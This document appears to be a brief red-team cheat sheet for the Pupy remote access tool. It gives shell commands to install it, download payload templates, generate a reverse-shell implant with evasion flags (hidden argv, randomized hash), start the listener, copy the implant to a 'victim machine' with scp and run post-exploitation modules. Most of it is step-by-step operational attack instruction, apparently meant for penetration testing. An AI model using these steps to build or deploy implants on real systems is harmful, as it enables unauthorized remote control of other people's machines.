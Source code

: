 # Pupy
## Installing
````
git clone https://github.com/n1nj4sec/pupy
git submodule init 
git submodule update
cd pupy 
pip install -r requirements.txt
````
- Download templates
````
wget https://github.com/n1nj4sec/pupy/releases/download/latest/payload_templates.txz
tar xvf payload_templates.txz && mv payload_templates/* pupy/payload_templates && rm payload_templates.txz && rm -r payload_templates
````
- Create a RAT for Deployment
````
cd /path/to/pupy 
./pupygen.py -l | less -R
````
- `pupygen` with no arguments defaults to x86 Windows reverse payload on port 443
- `-f` specifies the type of payload we are generating 
- `-O` arfument can set the target operating system
````
./pupygen.py -f py -O linux -A x64 -s hide_argv,name=myRemoteAccess --randomize-hash
````
- Pupy will automatically include ip and port with the best guess if they are omitted from the implant generation command
## Set up the Server
````
./pupysh.py 
````
## Deploy the RAT
- Can place on the victim machine various ways 
````
scp ~/location-of-pupy-file username@10.10.10.10:/tmp
````
## Interactive
- Help can be accessed with command -h `netstat -h`
- List Modules 
````
list_modules
````
- To run a module use the `run` command 
````
run check_vm
````

